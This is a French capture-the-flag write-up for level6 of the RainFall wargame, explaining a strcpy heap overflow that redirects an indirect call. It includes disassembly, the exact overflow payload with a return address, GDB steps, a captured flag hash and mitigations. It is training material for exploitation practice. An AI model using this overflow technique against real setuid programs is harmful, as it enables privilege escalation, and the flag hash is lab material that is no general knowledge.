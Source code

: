 # level6 — RainFall

> Documentation courte du niveau 6 — exploitation par overflow et contrôle de flux

---

## 1) But

Expliquer comment exploiter `level6` pour obtenir le flag en écrasant une adresse contrôlable via un débordement (`strcpy`) depuis l'argument utilisateur.

## 2) Environnement

* Machine : RainFall CTF (user `level6@RainFall`)
* Binaire : `level6` (setuid/groupe selon CTF)
* Outils recommandés : `gdb`, `objdump`, `readelf`, `python` (ou `pwntools` pour pattern)

## 3) Analyse rapide du binaire (déroulé)

Extrait pertinent du `main` (désassemblage) :

```asm
8048485: c7 04 24 40 00 00 00    movl   $0x40,(%esp)
804848c: e8 bf fe ff ff          call   8048350 <malloc@plt>
8048491: 89 44 24 1c             mov    %eax,0x1c(%esp)
...
80484ba: 8b 44 24 1c             mov    0x1c(%esp),%eax
80484be: 89 54 24 04             mov    %edx,0x4(%esp)
80484c2: 89 04 24                mov    %eax,(%esp)
80484c5: e8 76 fe ff ff          call   8048340 <strcpy@plt>
...
80484ce: 8b 00                   mov    (%eax),%eax
80484d0: ff d0                   call   *%eax
```

* `malloc(0x40)` → on obtient un buffer de **64 octets** stocké à `0x1c(%esp)`.
* `strcpy(dest, src)` copie l'argument utilisateur dans ce buffer.
* Juste après, l'exécution lit `(%eax)` (donc une adresse depuis la mémoire pointée par `eax`) et effectue `call *%eax` : on appelle une adresse lue en mémoire — vecteur d'attaque pour rediriger le flux.

## 4) Vulnérabilité

* `strcpy` sans longueur sur un buffer de 64 octets permet d'écrire au‑delà du buffer (heap overflow/overwriting adjacent heap metadata ou structure pointée depuis le heap).
* En overflowant suffisamment, on arrive à contrôler la valeur lue par `mov (%eax), %eax` puis appelée.

## 5) Découverte de l'offset

Méthode utilisée : envoi d'une suite de `A` (ou d'un pattern) pour déterminer la taille nécessaire avant d'écraser l'adresse ciblée.

* Taille trouvée : **72 octets** (64 buffer + 8 octets d'alignement / métadonnées frame).

Exemples de commandes pour reproduire :

```bash
# Test brut
./level6 $(python -c 'print "A"*72 + "\x54\x84\x04\x08"')
```

Le payload ci‑dessous a produit la sortie du flag/hash :

```
f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d
```

Ceci montre que l'appel contrôlé a été exécuté et a divulgué le contenu attendu.

## 6) Payload expliqué

* `"A"*72` → remplit jusqu'à l'offset où la valeur cible (adresse lue/appelée) peut être corrompue.
* `"\x54\x84\x04\x08"` → adresse little‑endian `0x08048454` (exemple) placée pour remplacer la valeur pointée appelée.

**Commande exacte utilisée :**

```bash
./level6 $(python -c 'print "A"*72 +  "\x54\x84\x04\x08"')
```

## 7) Reproduction pas à pas (GDB)

1. Lance le binaire dans gdb avec le payload :

```bash
gdb --args ./level6 $(python -c 'print "A"*72 + "\x54\x84\x04\x08"')
run
```

2. Avant le `call *%eax`, mettre un breakpoint sur l'adresse du `call` (ex : `break *0x080484d0`) et inspecter les registres/mémoire :

```gdb
# arrêter au call
b *0x080484d0
run $(python -c 'print "A"*72 + "\x54\x84\x04\x08"')
# afficher eax et la mémoire pointée
x/4x $eax
x/s $eax
info registers
```

3. Vérifier que l'adresse que tu as écrite est bien présente à l'endroit attendu et que le `call` va sauter là‑bas.

## 8) Remarques & mitigations

* La vulnérabilité provient d'un `strcpy` non limité. Remplacer par `strncpy` (avec length check) ou utiliser des API sécurisées (vérifier la taille) corrige le problème.
* Compilations sécurisées (`-fstack-protector`, ASLR, RELRO, NX, PIE) réduisent la surface d'exploitation. Ici plusieurs protections peuvent être absentes selon le CTF.

## 9) Checklist

* [x] Extrait d'ASM montrant `malloc(0x40)` et `strcpy`.
* [x] Méthode de découverte de l'offset (72 octets).
* [x] Payload final et preuve (sortie du flag/hash).
* [x] Étapes GDB pour reproduire.
* [x] Contremesures recommandées.

---

*Fin du document — level6 exploitation*
